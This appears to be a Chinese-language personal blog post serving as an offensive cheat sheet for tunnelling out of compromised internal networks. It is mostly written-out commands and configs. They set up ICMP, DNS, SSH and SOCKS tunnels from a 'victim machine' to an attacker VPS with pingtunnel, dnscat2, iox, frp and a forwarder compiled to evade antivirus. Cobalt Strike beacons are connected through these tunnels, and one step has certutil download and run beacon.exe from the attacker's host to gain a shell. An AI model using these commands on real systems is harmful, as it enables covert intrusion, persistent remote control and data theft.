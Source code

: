 ```yaml
---
title: 内网隧道搭建
date: 2023-01-11 15:11:40 +0800
categories: 
tags: 
permalink: /posts/id=79/
pin: false
---
```

## ICMP隧道
```shell
# VPS
sudo ./pingtunnel -type server -key 000000


# 受害机
pingtunnel.exe -type client -l 127.0.0.1:2222 -s 150.158.144.112 -t 150.158.144.112:3333 -tcp 1  -key 000000

# 建立隧道从受害机的2222端口到VPS的3333端口，隧道内通过ICMP传输


# 接入CS
CS🐎设置为反弹到受害机2222端口，这样就能通过隧道传回shell
创建2个监听器icmp_port/cs_port，生成一个反弹到受害机2222端口的beacon
受害机执行beacon.exe即可上线


# 进一步可以实现内网穿透(任意使用公司内网)
省略 搭建ICMP TCP隧道
# 受害机 将受害机的网络环境socks5代理到受害机2222端口，2222是隧道入口，iox 代理的 Socks 流量将通过 ICMP 隧道出网
.\iox.exe proxy -r 127.0.0.1:2222  #先操作


# VPS 将VPS3333端口收到的流量转发到4444端口
./iox proxy -l 3333 -l 4444

# 通过 proxifier 代理 socks 流量， VPS4444端口  实现本机访问内网

# tips


# -noprint 1 -nolog 1

#pingtunnel.exe -type client -l :[转发本机2222端口作为ICMP隧道通讯端口] -s [服务端IP] -[转发类型] 1 -noprint 1 -nolog 1
```


## DNS隧道搭建

```shell
# 配置域名解析
ns1 A 150.158.144.112
log ns ns1.e4l4.com
# 开启VPS TCP UDP 53端口放行
# test  VPS:sudo tcpdump -n -i eth0 udp dst port 53   受害机：nslookup log.e4l4.com

# 关闭DNS解析服务
sudo service systemd-resolved stop
# sudo service systemd-resolved start
sudo ruby dnscat2.rb log.e4l4.com -c 000000

.\dnscat2-v0.07-client-win32.exe --secret=000000 log.e4l4.com --delay 5000



# 接CS
# 建立DNS隧道，同时获取shell
# VPS端
sudo ruby ./dnscat2.rb log.e4l4.com -e open -c 000000 --no-cache
# 受害者端
.\dnscat2-v0.07-client-win32.exe --secret=000000 log.e4l4.com --delay 5000

# VPS端
session -i 1
shell //获取真shell
session -i 2 

# 把生成的beacon.exe(反弹到VPS3333端口)放到VPS上，用python开http
python3 -m http.server 4444
# 在已有的shell里下载
certutil.exe -urlcache -split -f http://e4l4.com:4444/beacon_x64.exe C:\Users\Public\beacon.exe

C:\Users\Public\beacon.exe
```

## ssh隧道（纯内网目标机）

需要跳板机

```shell
# VPS增加ssh端口转发
sudo vim /etc/ssh/sshd_config

GatewayPorts no改成yes

sudo systemctl restart sshd.service
```


## vpn隧道

### cs自带的vpn隧道

似乎只能工作在windows server 上
操作文章：
https://xz.aliyun.com/t/12500?time__1311=mqmhD50IZD8D%2FD0lD2DUo4fobK%3D0Q5F%3DF4D&alichlgref=https%3A%2F%2Fwww.google.com.hk%2F#toc-2

### Openvpn

## Socks代理
有socks4和5两种类型，socks4只支持TCP协议而socks 5支持TCP/UDP协议，还支持各种身份认证机制等协议

Iox
```bash
# VPS
./iox proxy -l 9999 -l 3333

# 受害机
iox.exe proxy -r e4l4.com:9999


连接e4l4.com:3333即可
```


Frp 
frps完整配置：https://github.com/fatedier/frp/blob/dev/conf/frps_full_example.toml
frpc完整配置：https://github.com/fatedier/frp/blob/dev/conf/frpc_full_example.toml
```bash
# VPS 绑定IP默认为本机，监听7000端口
nohup ./frps -c frps.toml >/dev/null 2>&1 &
# frps.toml
bindPort = 7000
# 受害机
nohup ./frpc -c frpc.toml >/dev/null 2>&1 &
# frpc.toml
serverAddr = "150.158.144.112"
serverPort = 7000
# 添加的Socks5代理配置
[[proxies]]
name = "socks5_proxy"  # Socks5代理的名称
type = "tcp"
remotePort = 3333      # Socks5代理的远程端口，可以根据需要更改
plugin = "socks5"
# plugin_user = "your_username"  # 如果需要用户名和密码认证，取消这两行的注释并设置用户名和密码
# plugin_passwd = "your_password"

连接e4l4.com:3333即可
```


## Slcx端口转发(iox平替)

```shell
# 免杀编译
# windows端
# 可修改文件里的密钥
$env:GOOS="windows"; $env:GOARCH="amd64"; go build -ldflags="-s -w" -o e4l4.exe


go build -ldflags="-s -w" -o 



# VPS端 将受害机发送到4443的流量转发到4444端口
./slcx :4443 0.0.0.0:4444 --laoban


# 将受害本机的22端口转发到VPS上的4443端口
.\slcx.exe 127.0.0.1:22 150.158.144.112:4443 --niuma
```












